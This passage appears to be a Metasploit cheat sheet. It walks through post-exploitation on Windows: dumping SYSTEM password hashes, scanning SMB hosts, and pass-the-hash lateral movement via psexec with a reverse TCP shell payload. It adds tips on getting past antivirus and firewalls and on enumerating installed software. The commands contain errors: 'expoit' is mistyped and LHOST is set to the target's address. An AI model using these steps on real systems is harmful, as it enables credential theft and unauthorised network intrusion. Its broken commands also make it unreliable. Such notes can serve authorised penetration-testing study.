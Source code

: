 ## Dump password hashes
If you have SYSTEM privileges, you can easily dump the password hashes with:
dump password hashes:

```bash
run post/windows/gather/hashdump 
```

## Scan for SMB Shares
```bash
use auxiliary/scanner/smb/smb_version
set RHOSTS <range>
set THREADS <number>
run
```

- \<range\> = scan range e.g. 192.168.5-10
- \<number\> = number of threads

## Lateral movement with psexec
If you were able to dump the password hashes you can try to jump to other machines with psexec. Scan for possible targets with the SMB Shares scan first and then try out:
```bash
use exploit/windows/smb/psexec
set payload windows/shell/reverse_tcp
set LHOST <target_ip>
set SMBUser <username> 
set SMBPass <password hash>
expoit
```
If this doesn't work, check if the AV on the target is removing the payload and if the firewall allows the connections. In a local network you also need to enable network discovery and the admin share[6].

## Enumerate Applications
If you want to check out the installed applications:
```bash
use post/windows/gather/enum_applications
set SESSION <session id>
expoit
```


[^1]: Metasploit ](https://www.metasploit.com/)

[^2]: [Rapid7](https://www.rapid7.com/)

[^3]: [Offensive Security - Metasploit course](https://www.offensive-security.com/metasploit-unleashed/)

[^4]: [unicorn](https://github.com/trustedsec/unicorn)

[^5]: [TrustedSec](https://www.trustedsec.com/)

[^6]: [Enable C$ Admin share](https://cormang.com/2018/01/06/enable-c-admin-share-windows-10-server-2016/)